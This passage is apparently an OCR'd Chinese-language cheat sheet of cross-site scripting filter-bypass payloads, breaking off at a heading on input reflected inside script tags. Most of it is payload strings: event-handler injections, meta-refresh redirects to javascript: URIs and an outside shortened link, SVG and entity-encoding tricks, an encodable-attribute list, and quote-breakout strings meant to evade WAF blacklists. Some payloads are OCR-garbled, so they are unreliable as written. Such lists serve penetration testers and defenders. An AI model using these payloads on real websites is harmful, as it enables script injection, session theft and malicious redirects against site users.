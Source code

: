     <a onmouseover=location=’javascript:alert(1)>click
    <body onfocus="location=&#039;javascrpt:alert(1) >123
其他Payload

    <meta http-equiv="refresh"      content="0;url=//goo.gl/nlX0P">
    <meta http-equiv="refresh"      content="0;javascript&colon;alert(1)"/>
    <svg xmlns="http://www.w3.org/2000/svg"><g      onload="javascript:\u0061lert(1);"></g></svg> //      By @secalert
    <svg xmlns:xlink=" r=100 /><animate attributeName="xlink:href"      values=";javascript:alert(1)" begin="0s"      dur="0.1s" fill="freeze"/> // By Mario
    <svg><![CDATA[><imagexlink:href="]]><img/src=xx:xonerror=alert(2)//"</svg>      // By @secalert
    <meta content="&NewLine; 1 &NewLine;;JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>
    <math><a xlink:href="//jsfiddle.net/t846h/">click // By Ashar Javed
（）；：被过滤

    <svg><script>alert&#40/1/&#41</script>      // Works With All Browsers
    ( is html encoded to &#40
    ) is html encoded to &#41
Opera的变量

    <svg><script>alert&#40      1&#41 // Works with Opera Only
 

实体解码
 
```
&lt;/script&gt;&lt;script&gt;alert(1)&lt;/script&gt;
<a  href="j&#x26;#x26#x41;vascript:alert%252831337%2529">Hello</a>
```
编码

JavaScript是很灵活的语言，可以使用十六进制、Unicode、HTML等进行编码，以下属性可以被编码（支持HTML, Octal, Decimal,Hexadecimal, and Unicode）
```
href=
action=
formaction=
location=
on*=
name=
background=
poster=
src=
code=
data= //只支持base64
```

基于上下文的过滤

WAF最大的问题是不能理解内容，使用黑名单可以阻挡独立的js脚本，但仍不能对xss提供足够的保护，如果一个反射型的XSS是下面这种形式

输入反射属性

```
<input value="XSStest" type=text>
```
我们可以使用 `"><imgsrc=x  onerror=prompt(0);>`触发，但是如果<>被过滤，我们仍然可以使用`" autofocusonfocus=alert(1)//`触发，基本是使用“ 关闭value属性，再加入我们的执行脚本
```
" onmouseover="prompt(0) x="
" onfocusin=alert(1) autofocus x="
" onfocusout=alert(1) autofocus x="
" onblur=alert(1) autofocus a="
```
输入反射在`<script>`标签内
